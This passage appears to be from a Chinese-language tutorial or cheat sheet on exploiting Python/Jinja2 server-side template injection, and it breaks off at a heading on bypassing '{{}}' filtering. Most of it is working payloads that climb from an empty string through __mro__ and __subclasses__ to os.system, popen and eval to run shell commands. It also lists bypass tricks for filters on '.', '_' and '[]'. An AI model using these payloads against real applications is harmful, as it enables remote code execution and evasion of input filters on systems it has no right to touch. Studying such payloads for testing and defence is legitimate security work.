 ```python
>>> ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')

>>> ''.__class__.__mro__[2].__subclasses__()[58].__init__.__globals__['linecache'].os.system('ls')

>>> ''.__class__.__mro__[2].__subclasses__()[58].__init__.__globals__['__builtins__']['eval']("__import__('os').system('ls')")
```

### python3

也可以仿造上面脚本来挖掘，但一般你能走到这一步其实找rce的类还是很简单的

**python3**一般用的就是`os._wrap_close`

```python
>>> "".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls').read()
```

也可以用这种办法

```python
{{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}} # x指任何字符
```



## bypass

### 过滤 . 

```python
""["__class__"]
# attr() 用于获取变量
""|attr("__class__")
# getattr() 函数用于返回一个对象属性值。
getattr('',"__class__")
```

### 过滤 _

```python
# 利用十六进制 \x5f 代替 _
''["\x5f\x5fclass\x5f\x5f"]
# 或者
''|attr(request.values.x1) # x1 = __class__
```

### 过滤 []

```python
# __getitem__ 魔术方法，作用可看为将中括号转为括号
''.__class__.__mro__.__getitem__(1)
```

### 过滤 {{}}
